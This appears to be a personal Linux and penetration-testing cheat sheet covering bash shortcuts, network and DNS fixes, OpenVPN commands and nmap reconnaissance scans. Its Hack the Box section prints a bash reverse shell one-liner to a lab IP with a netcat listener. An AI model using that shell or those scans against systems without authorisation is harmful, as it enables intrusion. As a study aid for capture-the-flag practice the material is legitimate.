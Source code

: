 
### Common commands
```sh
$ hostname                   # show or set system's hostname
$  history | grep netstat    # search the command  history
$ cd -                       # navigate to previous directory
$ Ctrl + A                   # navigate to start of command
$ Ctrl + E                   # navigate to the end of command
$_ shell variable            # in bash, is the last argument given to the previous command
!$ shell variable            # in bash, gives the last argument of previous command in the shell history
mkdir -p a/b/c/d/e && cd $_  # create folder and switch to it
$! shell variable            # the PID of the last executed command
du -ch                       # estimate file space usage
su -                         # switch to root user
tar -xvf file.tar            # extract file
```


### Network commands
```sh
$ ifconfig                   # configure/view network interfaces
$ ping -c 5 www.google.com   # ping 5 times
$ arp                        # manipulate the system ARP cache
```


### Magic bytes
* https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
* Example: 
 ```$ echo "GIF8;" > testfile.file```
 ```$ file testfile.file```   # outputs  **testfile.file: GIF image data**



### Hack the box
https://0x00sec.org/t/my-hackthebox-ctf-methodology-from-fresh-box-to-root/13980

**Bach reverse shell**
* https://github.com/fijimunkii/bash-dev-tcp/blob/master/reverse-shell
Example: ```bash -i >& /dev/tcp/10.10.14.150/9001 0>&1```   plus   ```nc -lvnp 9001``` to listen


### DNS configuration issues

**ping: www.google.com: Temporary failure in name resolution**

* https://stackoverflow.com/questions/53687051/ping-google-com-temporary-failure-in-name-resolution
* https://www.tecmint.com/set-permanent-dns-nameservers-in-ubuntu-debian/
 
    On modern Linux systems that use systemd (system and service manager), the DNS or name resolution services are provided to local applications via the systemd-resolved service. 
    It uses the systemd DNS stub file (**/run/systemd/resolve/stub-resolv.conf**) in the default mode of operation.
    The DNS stub file contains the local stub **127.0.0.53** as the only DNS server.
    
    ```ls -l /etc/resolv.conf``` - you will see that this file is a symlink to the /run/systemd/resolve/stub-resolv.conf file.
    Unfortunately, because the /etc/resolv.conf is indirectly managed by the systemd-resolved service, any changes made manually by a user can not be saved permanently or only last for a while.
    
    Quick fix - just to modify the **/etc/resolv.conf** to 8.8.8.8



## Open VPN server
Install and configure 
* https://interface31.ru/tech_it/2019/10/nastroyka-openvpn-servera-dlya-dostupa-v-internet.html  (russian)

**restart**
```
sudo systemctl stop openvpn@server
sudo systemctl enable openvpn@server.service
sudo systemctl start openvpn@server
```


## Start a python2 web server

 ``` python -m SimpleHTTPServer 80```
 
 
 ## Pen Testing
 * **Target validation** - WHOIS, nslookup, dnsrecon
 * **Finding subdomains** - Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc
 * **Fingerprinting** - nmap, Wappalyzer, BuiltWith, Netcat
 * **Data Breaches** - HaveIBeenPwned and similar
 * **Also** - Nikto, Nessus, Burp Suite, dirbuster

### nmap (press UP key to see the status)
* **TCP**  - SYN - SYN ACK - ACK 
* **nmap** -  SYN - SYN ACK - RST
1. **nmap "ping scan"** - ``` nmap -sn 10.0.2.0/24```  show all the nodes in a network
2. ```nmap -T4 <host>``` - top 1000 widely used ports scanned 
3. ```nmap -T4 -p- <host>``` - all ports scanned 
4. ```nmap -sC -sV -oA output <host>``` - this seems faster 
5. ```nmap -T4 -p22,80,443 <host>``` - selective ports scanned (can add here ```-A``` for more info)
6. ```/usr/share/nmap/scripts``` - namp usefull scripts (example  ```nmap -p443 --script=ssl-enum-ciphers utm.md```)



